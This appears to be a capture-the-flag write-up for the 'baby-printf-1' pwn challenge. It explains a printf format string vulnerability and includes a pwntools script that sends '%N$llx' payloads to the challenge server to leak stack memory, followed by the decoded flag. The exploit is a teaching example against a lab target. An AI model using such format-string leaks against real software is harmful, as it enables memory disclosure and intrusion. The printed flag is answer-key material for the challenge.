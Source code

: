 # baby-printf-1
> Write-up author: jon-brandy
## DESCRIPTION:
Apakah kamu tau printf merupakan fungsi yang berbahaya jika digunakan dengan salah?

`nc 167.71.212.18 3587`
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/212639804-c5da0452-a683-4a08-92f3-17ac3465d30d.png)


2. Jump to the `src` directory.

> INSIDE

![image](https://user-images.githubusercontent.com/70703371/212639895-4b7041e8-ab67-48ce-9c32-711f225f5250.png)


3. Check the file type.

> RESULT - ELF 64 BIT , not stripped

![image](https://user-images.githubusercontent.com/70703371/212639999-61ff5395-d3c2-4d3e-ae1a-aebb858ee943.png)


4. Now check the binary's protection.

> RESULT - Partial Relro

![image](https://user-images.githubusercontent.com/70703371/212640105-f945580d-2fa4-442e-a36a-cc7caea152e2.png)


5. Let's straight to decompile the binary.
6. Check the `vuln()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/213633578-56b93772-25a8-49a2-b2a4-0cc860990830.png)


7. There's no bufferoverflow, but there's a **format string vulnerability**, the `printf()` function does not have any format specifier.
8. We can utilize this vuln to leak a variable value. So i made a python script to leak the value using pwntools:

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)


exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

for i in range(100):
    try:
        sh = start()
        sh.sendlineafter("?", '%{}$llx'.format(i))
        # get the leaked values
        sh.recvuntil("?") 
        res = sh.recvline()
        fin = str(res)
        # print it
        print(fin)
    except EOFError:
        pass

sh.interactive()
```

9. Run the script remotely and we got several hex values, i decode it manually and got the flag's prefix at the 8th iter.

![image](https://user-images.githubusercontent.com/70703371/215320402-e1395cce-d83b-46e6-a10b-601df5c845c3.png)


![image](https://user-images.githubusercontent.com/70703371/215320416-a47ae35f-da09-4e8f-b607-9dd328056a2a.png)


10. Decode the leaked hex start from the 8th iter to the 13th and got this reversed flag.

```
}1009_3ullav_3lba1rav_a_k43l_0t_ftnirp{P1PCT
```

11. Let's reverse it again.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/215320503-9b763ee2-a65f-4079-a22d-670f95dd939b.png)


12. Got the flag!

## FLAG

```
TCP1P{printf_t0_l34k_a_var1abl3_vallu3_9001}
```





